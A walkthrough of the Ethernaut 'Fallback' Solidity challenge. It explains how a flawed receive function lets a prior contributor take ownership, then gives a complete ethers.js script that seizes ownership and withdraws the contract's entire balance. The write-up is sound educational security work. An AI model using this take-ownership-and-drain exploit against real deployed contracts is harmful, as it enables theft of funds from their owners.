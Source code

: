 ```yaml
---
description: >-
  In Ethernaut's Fallback, we get some practice walking through Solidity
  contract logic and are introduced to the concept of "fallback" functions.
---
```


# 1 - Fallback

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008) is to claim ownership of the `Fallback` contract and reduce its balance to zero.

### Hints

<details>

<summary>Hint One</summary>

Before we can withdraw funds, we must first become the contract's `owner`. Where in the code is the owner variable first assigned? Where is it reassigned? When it is reassigned, what conditions need to be met that would result in `msg.sender` becoming the `owner`? Could we construct a series of transactions to meet these conditions?

</details>

<details>

<summary>Hint Two</summary>

We can become the contract `owner` by triggering its `receive` function after making an initial transaction via the `contribute` function to satisfy the second part of its `require(msg.value > 0 && contributions[msg.sender] > 0);` condition. The `receive` function is a special "fallback" function in Solidity. How is it triggered?

</details>

### Full Walkthrough

#### Claiming Ownership

The contract's `owner` is set by its constructor to the address from which it was deployed. There are only two sections of the code in which the owner may be reassigned. The first, within the `contribute` function, is a dead end. This is because it requires the sender's contributions to be greater than the owner's, while the constructor has already set the owner's contribution to 1,000 ether (line 13: `contributions[msg.sender] = 1000 * (1 ether);`) and the `contribute` function limits each of the player's contributions to < 0.001 ether.

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

The second section of the code in which the contract owner may be reassigned is found within the `receive` ("Receive Ether") function.

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

The `receive` function checks first that the value of the transaction is non-zero, and that the contributions of the sender address are non-zero, before reassigning the `owner` to `msg.sender`. This means we may pass this `require` condition by first sending a small transaction via the `contribute` function (< 0.001 ether), then by sending a second transaction of any non-zero value to the contract address with empty calldata to trigger its `receive` function.

{% hint style="info" %}
**Fallback Functions**

Solidity (version 0.6.x+) contracts may contain two special "fallback" functions, `receive` and `fallback`:

* **receive** is triggered when a contract receives a transaction with empty calldata.
* **fallback** is triggered when no other function (not even `receive`) matches.
{% endhint %}

#### Reducing Balance to Zero

Once the owner address is set to the player's address, we may call the `withdraw` function directly as the `require` condition of the `onlyOwner` modifier has now been satisfied.

```solidity
function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
}
```

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const {
    provider,
    playerWallet,
    playerWalletSigner,
    contract: fallbackContract,
  } = await setup('Fallback')

  // Contribute 0.0001 ether via Fallback contract's 'contribute' function
  const contributionValue = ethers.utils.parseEther('0.0001')
  console.log(
    `Sending Fallback 'contribute' ${contributionValue.toString()}...`
  )
  const fallbackContribute = await fallbackContract.contribute({
    value: contributionValue,
  })
  await fallbackContribute.wait(1)

  // Confirm contribution via Fallback contract's 'getContribution' function
  console.log(
    `Current contribution: ${await fallbackContract
      .getContribution()
      .toString()}`
  )

  // Send ether to Fallback contract address ('receive' function)
  console.log(
    `Sending ${contributionValue.toString()} to Fallback contract address...`
  )
  const fallbackReceive = await playerWalletSigner.sendTransaction({
    to: process.env.CONTRACT_ADDRESS,
    value: contributionValue,
    gasPrice: 20000000000,
  })
  await fallbackReceive.wait(1)

  // Check current Fallback contract 'owner'
  const fallbackContractOwner = await fallbackContract.owner()
  console.log(`Fallback contract 'owner' is now: ${fallbackContractOwner}`)

  if (fallbackContractOwner === playerWallet.address) {
    console.log('Player is contract owner.')

    // Withdraw funds via Fallback contract's 'withdraw' function
    console.log('Withdrawing contract balance...')
    const fallbackWithdraw = await fallbackContract.withdraw()
    await fallbackWithdraw.wait(1)

    // Check new Fallback contract balance
    const contractBalance = await provider.getBalance(
      process.env.CONTRACT_ADDRESS
    )
    console.log(`Contract balance is now: ${contractBalance.toString()}`)
  }
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* Solidity contains two special **fallback functions**. One of which, **receive**, is triggered when a contract receives a transaction with empty calldata.
